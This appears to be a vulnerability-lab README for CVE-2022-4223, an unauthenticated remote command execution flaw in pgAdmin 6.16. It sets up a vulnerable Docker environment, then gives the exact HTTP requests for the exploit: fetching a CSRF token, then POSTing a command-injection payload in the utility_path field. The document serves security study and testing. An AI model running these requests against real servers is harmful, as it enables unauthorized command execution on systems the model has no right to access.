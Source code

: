 # pgAdmin <= 6.16 Unauthenticated Remote Command Execution (CVE-2022-4223)

[中文版本(Chinese version)](README.zh-cn.md)

pgAdmin is a popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.

The pgAdmin server includes an HTTP API that is intended to be used to validate the path a user selects to external PostgreSQL utilities such as pg_dump and pg_restore. The utility is executed by the server to determine what PostgreSQL version it is from. Versions of pgAdmin prior to 6.17 failed to properly secure this API, which could allow an unauthenticated user to execute arbitrary commands on the server.

References:

- <https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604>
- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## Vulnerable Environment

Execute following command to start a pgAdmin 6.16 server:

```
docker compose up -d
```

After the server is started, browse the `http://your-ip:5050` to see the default login page of pgAdmin.

## Exploit

Before exploiting the vulnerability, send the following request to obtain the CSRF token:

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

Get the session id and csrf token from response:

![](1.png)

Then, fill the following request with the session id and csrf token and send it:

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

As you can see, `id` command has been executed successful:

![](2.png)
